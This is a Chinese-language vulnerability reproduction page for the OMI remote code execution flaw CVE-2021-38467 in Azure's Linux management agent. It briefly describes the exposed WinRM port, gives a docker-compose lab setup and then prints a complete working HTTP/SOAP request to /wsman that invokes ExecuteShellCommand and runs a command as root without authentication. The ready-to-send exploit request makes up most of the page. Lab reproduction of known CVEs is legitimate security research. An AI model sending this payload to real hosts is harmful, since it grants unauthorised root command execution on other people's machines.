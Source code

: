 # OMI RCE漏洞（CVE-2021-38467）

OMI 是 UNIX/Linux 等价于 Window 的 WMI。它允许用户跨远程和本地环境管理配置并收集统计信息。由于 OMI 提供的易用性和抽象性，它在 Azure 中得到了广泛使用，尤其是在开放管理套件(OMS)、Azure Insights、Azure 自动化等中。OMI 代理以具有高权限的 root 身份运行。当配置为允许外部使用时，任何用户都可以使用 UNIX 套接字或有时使用 HTTP API 与它通信。因此，OMI 代表了一个可能的攻击面，其中漏洞允许外部用户或低权限用户在目标机器上远程执行代码或提升权限。
某些 Azure 产品（例如配置管理）公开了一个用于与 OMI 交互的 HTTPS 端口（端口 5986 也称为 WinRM 端口）。
参考链接：

- https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

## 漏洞环境

```
docker-compose up -d
```
## payload
```
POST /wsman HTTP/1.1
Connection: Keep-Alive
Content-Length: 1505
Content-Type: application/soap+xml;charset=UTF-8
Host: 192.168.1.1:5986

<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>id</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>

```


## 漏洞复现

![](1.png)


